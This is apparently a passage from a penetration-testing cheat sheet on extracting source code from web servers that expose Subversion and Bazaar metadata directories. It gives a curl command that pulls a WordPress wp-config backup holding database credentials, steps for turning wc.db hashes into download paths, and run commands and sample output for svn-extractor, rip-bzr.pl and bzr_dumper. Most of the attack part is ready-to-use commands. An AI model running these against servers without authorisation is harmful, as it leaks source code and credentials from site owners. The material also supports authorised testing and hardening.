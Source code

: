 
## Subversion

### Example (Wordpress)

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
   ```powershell
   INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
   ```
2. Download interesting files
   - remove \$sha1\$ prefix
   - add .svn-base postfix
   - use first byte from hash as a subdirectory of the `pristine/` directory (`94` in this case)
   - create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

### Tools

#### svn-extractor

```powershell
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url "url with .svn available"
```

## Bazaar

### Tools

#### rip-bzr.pl

```powershell
wget https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl
docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-bzr.pl -v -u
```

#### bzr_dumper

```powershell
git clone https://github.com/SeahunOh/bzr_dumper
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish

$ bzr revert
 N  application.py
 N  database.py
 N  static/
```